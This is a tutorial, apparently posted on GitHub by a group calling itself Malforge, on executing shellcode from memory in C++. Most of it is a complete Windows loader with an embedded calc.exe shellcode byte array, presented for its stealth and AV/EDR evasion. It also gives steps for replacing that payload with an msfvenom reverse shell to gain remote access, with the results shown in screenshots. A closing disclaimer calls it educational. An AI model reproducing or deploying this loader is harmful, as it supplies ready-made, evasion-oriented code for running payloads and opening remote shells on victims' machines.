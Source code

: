 # Executing Shellcode with C++

## Introduction

Hello everyone, today I am going to teach you how to execute malicious shellcode with C++.

## Why Use Shellcode?

Shellcode is often used in scenarios where:

- **Stealth is critical** — It avoids writing to disk.
- **AV/EDR evasion** — Memory-resident payloads are harder to detect.
- **Precise control** over execution — You're writing and executing memory buffers directly.

![image](https://github.com/user-attachments/assets/86729f34-8ff9-4a2d-b637-7fb9dbb26312)

## The Payload: `calc.exe`

We'll use a shellcode payload that spawns the calculator (`calc.exe`). This is commonly used as a proof-of-concept (PoC) for demonstrating shellcode execution.

---

## Full C++ Code

```cpp
/*
  C++ implementation of a shellcode execution example with calc.exe payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, my_payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) my_payload_mem, 0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}
```

## Proof of Concept (PoC)
To illustrate this technique, we can use a reverse shell payload created with MSFvenom in C format. Follow these steps:

Generate Shellcode: Use MSFvenom to create a reverse shell payload and format it as a C array.

![image](https://github.com/user-attachments/assets/85592f72-2ddc-4519-9cc3-08d74ce71fb4)

Insert Payload: Update the payload array in the code with the generated shellcode.

![image](https://github.com/user-attachments/assets/6b98ec6a-2354-4368-aa05-9a837c830605)

Compile and Run: Compile the C++ code into an executable (EXE) and run it to initiate the reverse shell.

![image](https://github.com/user-attachments/assets/94d3293c-b47c-4738-9fdf-df5b33aa8526)

![image](https://github.com/user-attachments/assets/4c2e683e-2659-4eff-ac64-034babac6d7c)

Upon running the EXE, the reverse shell connects, granting remote access to the system

![image](https://github.com/user-attachments/assets/087d4378-0658-4b46-80d2-f45b4203ab91)

![image](https://github.com/user-attachments/assets/a6e2233f-c24a-45d8-8c19-cee4358c0066)

## Conclusion

This guide covered how to execute shellcode in C++ and highlighted its stealth advantages. By running code in memory, shellcode can bypass many standard security measures. I hope this article was insightful and helped you understand shellcode execution.

> ⚠️ **Disclaimer:**  
> This code is for **educational purposes only**. Executing shellcode can be **highly dangerous** and may trigger antivirus alerts or cause system instability.  
> Do **not** run this code on production machines or without proper knowledge.  
> Always conduct experiments in **isolated environments** such as virtual machines or sandboxes.
---

Thank you for reading!

— **Malforge Group**
